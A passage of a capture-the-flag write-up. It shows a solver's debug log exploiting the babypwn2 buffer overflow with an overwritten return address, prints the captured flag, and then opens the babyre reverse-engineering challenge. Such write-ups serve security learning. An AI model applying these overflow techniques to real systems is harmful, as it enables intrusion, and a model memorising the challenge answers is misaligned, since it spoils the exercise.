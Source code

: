 ```bash {title="running"}
$ python3 solver.py
[+] Opening connection to babypwn2.wolvctf.io on port 1337: Done
[DEBUG] Received 0x1e bytes:
    b'== proof-of-work: disabled ==\n'
[DEBUG] Received 0x15 bytes:
    b"What's your name?\n"
    b'>> '
[DEBUG] Sent 0x31 bytes:
    00000000  41 41 41 41  41 41 41 41  41 41 41 41  41 41 41 41  │AAAA│AAAA│AAAA│AAAA│
    *
    00000020  42 42 42 42  42 42 42 42  95 11 40 00  00 00 00 00  │BBBB│BBBB│··@·│····│
    00000030  0a                                                  │·│
    00000031
[*] Switching to interactive mode

>> [DEBUG] Received 0x52 bytes:
    00000000  48 69 20 41  41 41 41 41  41 41 41 41  41 41 41 41  │Hi A│AAAA│AAAA│AAAA│
    00000010  41 41 41 41  41 41 41 41  41 41 41 41  41 41 41 41  │AAAA│AAAA│AAAA│AAAA│
    00000020  41 41 41 42  42 42 42 42  42 42 42 95  11 40 21 0a  │AAAB│BBBB│BBB·│·@!·│
    00000030  77 63 74 66  7b 57 6f 34  68 5f 6c 30  6f 6b 5f 34  │wctf│{Wo4│h_l0│ok_4│
    00000040  74 5f 79 30  75 5f 68 34  63 6b 31 6e  67 5f 6d 33  │t_y0│u_h4│ck1n│g_m3│
    00000050  7d 0a                                               │}·│
    00000052
Hi AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAABBBBBBBB\x95\x11@!
wctf{Wo4h_l0ok_4t_y0u_h4ck1ng_m3}
[*] Got EOF while reading in interactive
$ q
[DEBUG] Sent 0x2 bytes:
    b'q\n'
$ q
[DEBUG] Sent 0x2 bytes:
    b'q\n'
[*] Closed connection to babypwn2.wolvctf.io port 1337
[*] Got EOF while sending in interactive
```

<details><summary>FLAG</summary></details>

<br>

### Rev: babyre

<details><summary>Overview</summary></details>

The next beginner challenge is Rev called `babyre`

```bash {title="prompt"}
$ ./babyre
How are you today?
I'm good
Not sure how to react to that :/
Did you checkout our cool sponsors?
You should totally check them out!
I think I am forgetting something...
Oh yea the flag!
But where did I put it...
I know its in here somewhere.
Dratts! Can you help me find it?
I swear its around here somewhere.
```
